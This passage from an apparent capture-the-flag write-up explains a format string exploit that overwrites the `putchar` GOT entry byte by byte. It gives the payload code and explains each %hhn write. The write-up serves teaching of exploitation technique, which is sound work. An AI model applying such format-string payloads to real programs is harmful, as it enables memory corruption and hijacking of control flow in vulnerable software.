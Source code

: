 After finding the offset, perform format string to overwrite `putchar`. There are 2 ways here: overwrite each byte or overwrite 2 bytes at the same time.

#### First way: Overwrite each byte.

We will divide `0x1349` into 2 parts: `0x49` and `0x13`, overwriting the last part one by one.

```
payload  = b'A'*112
payload += f'%73c%23$hhn'.encode()
payload += f'%202c%24$hhn'.encode()
payload += b'a'
payload += p64(0x404018)
payload += p64(0x404019)
```

![alt text](/images/image-6-3.png)

```
%73c: Prints 73 characters. 
%23$hhn: Write 1 byte (hhn as writing 1 byte) to the address located at position 23 in the stack (counting from the top of the stack which is the 6th parameter). (Overwrite 0x49 (73 decimal) to 0x404018).

%202c: Prints 202 characters. Now the total printed characters are 202 + 73 = 275. But because it is a byte (0-255), 275 will become 19 (0x13).
%24$hhn: Write 1 byte to the address located at position 24 in the stack. (Overwrite 0x13 to 0x404019).

And payload += b'a' is used to align the stack.
```
